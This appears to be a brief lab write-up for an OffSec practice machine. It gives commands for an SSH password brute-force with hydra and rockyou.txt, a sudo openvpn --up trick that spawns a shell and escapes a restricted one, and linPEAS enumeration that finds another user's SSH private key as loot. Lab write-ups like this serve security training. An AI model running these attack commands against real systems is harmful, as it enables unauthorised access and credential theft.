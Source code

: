 - Running `hydra -l offsec -P /usr/share/wordlists/rockyou.txt ssh://192.168.187.122` will identify the password as `password`.![[Pasted image 20240213210621.png]]
# PrivEsc
- `sudo -l` will reveal `offsec` can run `openvpn` with `sudo`.![[Pasted image 20240213211044.png]]
- `sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'`can be used to spawn and escape from limited shell.
# Local Enumeration
- `linPEAS` wiil identify that there is another user called `mario` and its corresponding SSH private key.![[Pasted image 20240213214429.png]]
# Loot
- User `mario`'s SSH private key.
- `offsec`: password 